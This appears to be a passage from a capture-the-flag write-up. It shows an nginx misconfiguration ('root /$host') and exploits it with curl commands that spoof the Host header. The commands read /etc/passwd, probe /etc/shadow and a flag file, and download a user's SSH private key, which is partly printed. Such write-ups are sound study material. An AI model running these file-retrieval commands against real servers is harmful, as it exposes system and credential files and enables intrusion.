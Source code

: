 ```js
        index index.php;
        location ~ \.php$ {
            include fastcgi_params;
            fastcgi_pass unix:/run/php/php8.1-fpm.sock;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param SCRIPT_NAME $fastcgi_script_name;
        }
        location /resources {
            alias /$host/webapp/dataset/;
        }
        location / {
            root /$host;
            try_files $uri /index.php;
        }
    }
}
```

This has few problems, but, most importantly, `root /$host`. That enables
arbitrary file retrieval:

```bash
$ curl -v -H "Host: etc" http://library.m0unt41n.ch:30301/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
(...)
```

But not as root:

```bash
$ curl -v -H "Host: etc" http://library.m0unt41n.ch:30301/shadow
(...)
< HTTP/1.1 403 Forbidden

$ curl -v -H "Host: root" http://library.m0unt41n.ch:30301/flag.txt
(...)
< HTTP/1.1 404 Not Found
```

But it's enough to get the `webapp` user's SSH key &#128578;

```bash
$ curl -v -H "Host: home" http://library.m0unt41n.ch:30301/webapp/.ssh/id_rsa
(...)
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAtRCa5JCVnUGDAG+7gWPIeLgSZyNQVQnXUgLxxWPEPrNuYygOhOVe
(...)

curl -H "Host: home" http://library.m0unt41n.ch:30301/webapp/.ssh/id_rsa >webapp.key
```
